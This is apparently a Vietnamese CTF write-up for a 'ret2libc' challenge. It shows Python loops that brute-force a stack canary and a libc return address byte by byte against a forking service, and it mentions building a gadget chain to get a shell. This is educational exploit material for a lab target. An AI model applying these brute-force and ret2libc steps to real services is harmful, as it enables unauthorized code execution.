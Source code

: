 # KCSC_CTF_2023 - ret2libc

# 1. Phân tích 
![chall.png](images/chall.png)

Ở bài này chỉ cho ta 1 file libc và không cho ta file binary

Chạy chương trình:

![nc.png](images/nc.png)

Ở đây ta thấy chương trình sẽ lặp đi lặp lại nhiều lần và ta có thể thấy lỗi `*** stack smashing detected ***: terminated`

# 2. Khai thác

- Bước 1: Leak canary

Ở đây ta có vòng lặp vô tận nên mình sẽ lợi dụng điều này để brute force `canary`

```
i=0
p.recvuntil(b">")
canary = b"\x00"
while(1):
    payload = cyclic(0x28) + canary + bytes([i])
    p.send(payload)
    print(payload)
    a = p.recvuntil(b">")
    print(a)
    if (len(a) > 10):
        hi=0
    else :
        print("Not detected")
        canary += bytes([i])
        i = 0

    if(len(canary) == 8):
        canary =  u64(canary)
        print("[+]Canary:", hex(canary))
        break
    i+=1
```

Ở đây mình chỉ sử dụng `p.send(payload)` thay vì `p.sendline(payload)` để loại bỏ ký tự `0xa` khi gửi `payload`

Nếu không có dòng chữ `*** stack smashing detected ***: terminated` xuất hiện thì ta đã đoán đúng byte đó của `canary`

-> Ghép các bytes đó lại và ta sẽ bypass được `canary` 

- Bước 2: Leak libc

```
libcc = b"\x90"
for i in range(0xf):
    payload = cyclic(0x28) + p64(canary) + p64(0) + libcc + p8((i << 4) + 0xd)
    print(payload)
    p.send(payload)
    if b'Segmentation fault' not in p.recvuntil(b'> '):
        libcc += p8((i << 4) + 0xd)
        break

i=0
while(1):
    payload = cyclic(0x28) + p64(canary) + p64(0) + libcc + bytes([i])
    p.send(payload)
    print(payload)
    a = p.recvuntil(b">")
    if (b"Segmentation fault" in a): 
        i+=1
    else :
        print("Not detected")
        libcc += bytes([i])
        i = 0
        print(libcc)

    if(len(libcc) == 8):
        libc.address =  u64(libcc) - 0x0000000000029d90
        print("[+]Libc_base:", hex(libc.address))
        break
```

Ok tiếp đến mình sẽ làm tương tự như leak `canary` vì khi ta ghi đè `saved_rip` với 1 giá trị sai thì chương trình sẽ chạy lỗi và in ra chuỗi `Segmentation fault`

Ok nhưng tại sao chương chình bị lỗi `Segmentation fault` cũng như `*** stack smashing detected ***: terminated` mà vẫn chạy tiếp?

Mình có tìm hiểu và thấy được `fork()` dùng để tạo quá trình con (child process)

```
Trong hệ điều hành, quá trình con (child process) là một quá trình mới được tạo ra bởi một quá trình hiện tại, được gọi là quá trình cha (parent process). Khi một quá trình cha gọi hàm fork(), hệ điều hành sẽ tạo một bản sao của quá trình cha và trả về giá trị khác 0 cho quá trình cha (thường là ID của quá trình con) và giá trị 0 cho quá trình con. Quá trình con là một quá trình hoạt động độc lập, có cùng mã chương trình với quá trình cha, nhưng có không gian bộ nhớ và tài nguyên riêng.
```

Khi quá trình con bị hỏng, chương trình vẫn còn quá trình cha (parent process) để có thể quay lại vòng lặp, đó là lý do mà tại sao chương chình bị lỗi `Segmentation fault` cũng như `*** stack smashing detected ***: terminated` mà vẫn chạy tiếp.

Ok vậy return addr của quá trình con sẽ là `__libc_start_call_main+128` như bao chương trình khác khi nó quay lại main.

Do đã được cung cấp phiên bản libc rồi nên ta có thể tìm được địa chỉ hàm bằng câu lệnh sau: `nm -D libc.so.6 | grep "__libc_start_call_main"`

![libc.png](images/libc.png)

Ở đây mình chỉ tìm được `__libc_start_main` nên mình đã dạo 1 vòng github với từ khóa `__libc_start_call_main+128 libc.so.6` và có thể tìm được đa phần offset đến libc_base là `0x29d90`

Ok sau khi đã brute force được địa chỉ hàm `__libc_start_call_main+128` thì mình sẽ tình được `libc_base` và từ đó tạo được chuỗi gadget để lấy shell của chương trình.

* Lưu ý:

Do 3 bytes cuỗi của hàm `__libc_start_call_main+128` là `0xd90` nên ta không cần brute force byte `0x90` đầu tiên cũng như chỉ cần brute force 15 lần ở bytes thứ 2. Nếu ta không làm như vậy, có nhưng địa chỉ khác mà khác với `0xd90` chương trình vẫn tiếp tục thực thi mà không bị lỗi `Segmentation fault` và ta không kiểm soát được `libc_base` do không có file binary ở đây.

![flag.png](images/flag.png)